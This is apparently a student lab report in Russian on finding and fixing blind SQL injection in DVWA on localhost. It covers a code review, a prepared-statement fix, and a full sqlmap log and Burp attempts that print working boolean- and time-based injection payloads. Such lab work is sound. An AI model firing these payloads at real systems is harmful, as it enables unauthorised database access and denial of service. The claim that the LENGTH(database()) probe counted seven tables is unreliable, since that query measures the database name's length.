





# Практическая работа 4
## Необходимо найти участок кода, содержащий инъекцию SQL кода в задании Blind Sql Injection в dvwa с использованием статического анализатора кода

Тут я использовал SonarCube Cloud (сначала пробовал использовать через Docker, но он не находит ошибки :) Для него код был отличный)



## Проанализировать код и сделать кодревью, указав слабые места
``` php
<?php

    if(isset( $_GET['Submit' ])) {
        /* Уязвимость: пользовательский ввод используется без обработки. */
        $id = $_GET[ 'id' ];

        /* Уязвимость: SQL-инъекция. Переменная `$id` передается напрямую. */
        $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid );

        /* Проблема: `@` подавляет ошибки, затрудняя отладку и диагностику. */
        $num = @mysqli_num_rows($result);

        if($num > 0) {
            /* Проблема: возможность XSS, если `$html` выводится напрямую. */
            $html .= '<pre>User ID exists in the database.</pre>';
        }
        else {
            /* Проблема: HTTP 404 применяется для отсутствующих ресурсов, а не для логики приложения. */
            header($_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found');

            /* Проблема: аналогичная возможность XSS. */
            $html .= '<pre>User ID is MISSING from the database.</pre>';
        }

        ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
    }

?>
```

### Исправленная версия DVWA, которая исключается Blind SQL Injection уязвимости

``` php
<?php

if (isset($_GET['Submit'])) {
    /* Получение введенного пользователем ID */
    $id = $_GET['id'];
    $exists = false;

    /* Подключение к базе данных */
    $connection = $GLOBALS["___mysqli_ston"];
    $query = "SELECT first_name, last_name FROM users WHERE user_id = ?";
    
    /* Используем подготовленный запрос */
    if ($stmt = mysqli_prepare($connection, $query)) {
        /* Привязка параметра */
        mysqli_stmt_bind_param($stmt, 's', $id);

        try {
            mysqli_stmt_execute($stmt);
            mysqli_stmt_store_result($stmt);

            $exists = mysqli_stmt_num_rows($stmt) > 0;
        } catch (Exception $e) {
            print "Произошла ошибка.";
            exit;
        } finally {
            mysqli_stmt_close($stmt);
        }
    }
    ((is_null($___mysqli_res = mysqli_close($connection))) ? false : $___mysqli_res);

    if ($exists) {
        $html .= '<pre>User ID exists in the database.</pre>';
    } else {
        header($_SERVER['SERVER_PROTOCOL'] . ' 404 Not Found');
        
        $html .= '<pre>User ID is MISSING from the database.</pre>';
    }
}
?>
```

## Использовать sqlmap для нахождения уязвимости в веб-ресурсе
> Выполнил проверку с помощью SQLMap CLI с уровнем риска 3 и уровнем глубины проверки 5
>
> В результе проверки sqlmap определил подверженные sql injection параметры - `id`

```bash
Home@MSK-H66QX93M2N low % sqlmap -u "http://127.0.0.1:4280/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --batch --risk=3 --level=5 --cookie="PHPSESSID=f3a0e687e3769ccf88b802d5cec92f9d; security=low"
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.12#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:39:48 /2024-12-20/

[19:39:48] [INFO] testing connection to the target URL
[19:39:48] [INFO] testing if the target URL content is stable
[19:39:49] [INFO] target URL content is stable
[19:39:49] [INFO] testing if GET parameter 'id' is dynamic
[19:39:49] [WARNING] GET parameter 'id' does not appear to be dynamic
[19:39:49] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[19:39:49] [INFO] testing for SQL injection on GET parameter 'id'
[19:39:49] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[19:39:49] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="exists")
[19:39:49] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[19:39:49] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[19:39:49] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[19:39:49] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[19:39:50] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[19:39:50] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[19:39:50] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[19:39:50] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[19:39:50] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[19:39:50] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[19:39:50] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[19:39:50] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[19:39:50] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[19:39:50] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[19:39:50] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[19:39:50] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[19:39:50] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[19:39:50] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[19:39:50] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[19:39:50] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[19:39:50] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[19:39:50] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[19:39:50] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[19:39:50] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[19:39:50] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[19:39:50] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[19:39:50] [INFO] testing 'Generic inline queries'
[19:39:50] [INFO] testing 'MySQL inline queries'
[19:39:50] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[19:39:50] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[19:39:50] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[19:39:50] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[19:39:50] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[19:39:50] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[19:39:50] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:40:00] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[19:40:00] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:40:00] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[19:40:00] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[19:40:00] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[19:40:00] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[19:40:00] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[19:40:00] [INFO] testing 'Generic UNION query (28) - 21 to 40 columns'
[19:40:00] [INFO] testing 'Generic UNION query (28) - 41 to 60 columns'
[19:40:00] [INFO] testing 'Generic UNION query (28) - 61 to 80 columns'
[19:40:00] [INFO] testing 'Generic UNION query (28) - 81 to 100 columns'
[19:40:00] [INFO] testing 'MySQL UNION query (28) - 1 to 20 columns'
[19:40:01] [INFO] testing 'MySQL UNION query (28) - 21 to 40 columns'
[19:40:01] [INFO] testing 'MySQL UNION query (28) - 41 to 60 columns'
[19:40:01] [INFO] testing 'MySQL UNION query (28) - 61 to 80 columns'
[19:40:01] [INFO] testing 'MySQL UNION query (28) - 81 to 100 columns'
[19:40:01] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 362 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 4705=4705-- jpBU&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 1097 FROM (SELECT(SLEEP(5)))etiy)-- ZYLi&Submit=Submit
---
[19:40:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62, PHP 8.4.1
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[19:40:01] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 17 times
[19:40:01] [INFO] fetched data logged to text files under '/Users/Home/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 19:40:01 /2024-12-20/

```

## Использовать Burp для нахождения уязвимости в веб-ресурсе

### Успешное использование Burp Repeater


### SQL инъекция, которая блокирует запрос на 5 секунд
1' and if(1=1, sleep(5), 0) and '1'='1

Ничего не мешает заблокировать операцию сильно дольше, чем на 5 секунд. Таким образом можно в пустую тратить ресурсы системы



### Sniper атака, которая вычисляет кол-во таблиц в БД
1' AND LENGTH(database())=1 AND '1'='1



В БД оказывается 7 таблиц, потому что при переборе параметра в этот момент условие инъекции стало true 

